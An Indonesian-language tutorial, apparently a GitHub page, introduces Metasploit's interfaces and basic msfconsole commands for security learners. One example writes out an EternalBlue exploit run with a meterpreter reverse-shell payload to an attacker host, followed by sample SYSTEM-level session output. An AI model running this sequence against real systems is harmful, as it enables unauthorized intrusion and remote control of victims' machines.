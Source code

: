 # Antarmuka Metasploit Framework

## A. Pengantar

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

## B. Jenis Antarmuka Metasploit

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| [Armitage](https://www.offsec.com/metasploit-unleashed/armitage/) (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| [Metasploit Pro](https://docs.rapid7.com/metasploit/) (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## C. `msfconsole` – Antarmuka Utama

1. Menjalankan msfconsole:

   ```
   msfconsole
   ```

   Saat dijalankan, akan muncul banner:

   ```
          =[ metasploit v6.4.56-dev                          ]
   + -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
   + -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
   + -- --=[ 9 evasion                                       ]

   Metasploit Documentation: https://docs.metasploit.com/
   ```

2. Struktur Dasar Perintah di msfconsole

   | Perintah | Fungsi |
   |:--:|:--:|
   | `search <nama>` | Mencari `exploit`, `payload`, `dll`. |
   | `use <modul>` | Memilih modul yang akan digunakan. |
   | `info` | Menampilkan detail tentang modul yang sedang digunakan. |
   | `show options` | Melihat konfigurasi parameter modul. |
   | `set <parameter> <nilai>` | Mengatur nilai parameter modul. |
   | `exploit` atau `run` | Menjalankan exploit atau modul. |

3. Contoh Penggunaan msfconsole:

   ```
   search windows/smb
   use exploit/windows/smb/ms17_010_eternalblue
   show options
   set RHOSTS <IP TARGET>
   set LHOST <IP ATTACKER>
   set PAYLOAD windows/meterpreter/reverse_tcp
   exploit
   ```

## D. Fitur Tambahan di msfconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background |
| Session Interaction | Gunakan `sessions -i <id>` untuk membuka kembali sesi eksploitasi |

## E. Contoh Output dari msfconsole:

```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## F. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.

